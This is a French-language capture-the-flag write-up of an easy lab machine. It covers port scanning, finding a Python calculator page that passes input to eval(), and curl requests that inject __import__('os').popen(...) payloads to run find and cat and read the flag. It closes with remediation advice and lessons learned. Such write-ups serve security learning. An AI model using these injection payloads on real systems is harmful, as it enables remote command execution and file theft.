





# Year 5739

Difficulté : Easy

Catégorie : Injection

## 1. Reconnaissance

```bash
nmap 10.10.0.2
```

Le scan par défaut ne trouve aucun port ouvert, les 1000 ports les plus courants sont tous fermés.

nmap ne scanne que ces 1000 ports par défaut. Comme la machine est bien active, j'ai relancé un scan sur la totalité des ports avec l'option -p- :

```bash
nmap -p- 10.10.0.2
```



Cette fois un port ouvert apparaît, le **5739**. C'est un port au dessus de 1000, ce qui explique qu'il était invisible au premier scan.

## 2. Découverte du service web

```bash
curl http://10.10.0.2:5739/
```



La page affiche un formulaire "Calculus" avec un champ calc. Deux choses attirent l'attention :

- On voit sur 24*60*60, la page répond Result : 24*60*60 = 86400. Le serveur ne recopie pas le texte, il calcule vraiment l'opération.
- Un commentaire est laissé dans le code HTML : "I don't really trust Tsukasa, so I left a backdoor here using the power of Python!". Cela indique que le serveur est codé en Python.

```bash
curl -I http://10.10.0.2:5739/
```

```
Server: Werkzeug/3.1.8 Python/3.13.5
```

Le serveur calcule vraiment l'opération envoyée, il ne fait pas que la recopier. Ça ressemble à la fonction Python eval(), qui exécute directement un texte comme du code. Le souci, c'est que eval() n'exécute pas que des calculs, elle exécute n'importe quel code qu'on lui donne. C'est probablement la "backdoor" indiqué dans le commentaire.

## 3. Énumération web (pour écarter les autres pistes)

```bash
gobuster dir -u http://10.10.0.2:5739/ -w /usr/share/wordlists/seclists/Discovery/Web-Content/common.txt
gobuster dir -u http://10.10.0.2:5739/ -w /usr/share/wordlists/seclists/Discovery/Web-Content/common.txt -x php,txt,html
```

Aucun dossier ni page cachée.

## 4. Vérification du comportement du serveur

Avant de tenter quoi que ce soit de compliqué, j'ai testé une expression simple pour être sûr que le serveur évalue bien du Python et ne recopie pas juste le texte :

```bash
curl -G "http://10.10.0.2:5739/" --data-urlencode "calc=7*7"
```



Le serveur renvoie 49 et pas le texte 7*7.

L'option -G envoie les données en paramètre dans l'URL, et --data-urlencode encode automatiquement les caractères spéciaux, ce qui évite d'avoir à les encoder à la main.

## 5. Recherche et récupération du flag

Recherche du fichier user.txt sur tout le système :

```bash
curl -G "http://10.10.0.2:5739/" --data-urlencode "calc=__import__('os').popen('find / -name user.txt 2>/dev/null').read()"
```



```
<pre>/home/senku/user.txt</pre>
```
Détail de la commande :
- __import__('os') : c'est la façon d'importer le module os en une seule ligne, à l'intérieur d'un eval. Ce module permet de lancer des commandes système.
- .popen('...').read() : lance la commande demandée et récupère son résultat sous forme de texte, que le serveur affiche ensuite dans la page.
- 2>/dev/null : masque les erreurs "permission denied" sur les dossiers protégés, pour ne garder que le chemin utile dans le résultat.

Lecture du fichier :

```bash
curl -G "http://10.10.0.2:5739/" --data-urlencode "calc=__import__('os').popen('cat /home/senku/user.txt').read()"
```



**Flag : EPI{1_w1LL_s0lv3_p37R1F1C4710N}**

## Vulnérabilités identifiées

- **Injection de code Python** : le serveur prend le texte du champ calc et l'exécute directement comme du vrai code Python, sans vérifier ce qu'il contient. Au lieu de faire juste un calcul, on peut donc lui faire exécuter n'importe quel code, et par extension n'importe quelle commande système. C'est exactement ce qui a permis de lire le fichier.
- **Message d'aide involontaire** : le commentaire laissé dans le code HTML confirme directement au visiteur la nature de la faille. Un commentaire de ce genre ne devrait jamais rester dans une page envoyée au navigateur.

## Comment corriger ça

Ne jamais utiliser eval() sur une donnée envoyée par un visiteur. Pour un simple calcul, il vaut mieux écrire soi-même une petite fonction qui reconnaît uniquement les chiffres et les opérateurs mathématiques, plutôt que d'exécuter le texte tel quel. Il faut aussi retirer tout commentaire sensible du code envoyé au navigateur.

## Ce que j'ai appris

Le scan nmap par défaut ne teste que 1000 ports. Quand il ne trouve rien alors que la machine est bien active, il faut relancer avec -p- pour scanner tous les ports, car un service peut très bien tourner sur un port haut comme le 5739 dans notre cas.

Un serveur qui calcule ce qu'on lui envoie exécute peut-être bien plus que des maths. Le réflexe est de tester un calcul simple (7*7), si le résultat est vraiment calculé et pas juste recopié, c'est le signe qu'on peut probablement injecter du code.

Pour importer un module à l'intérieur d'un eval, on utilise __import__('os'). Et popen(...).read() permet de récupérer le texte renvoyé par une commande système, au lieu d'un résultat illisible.
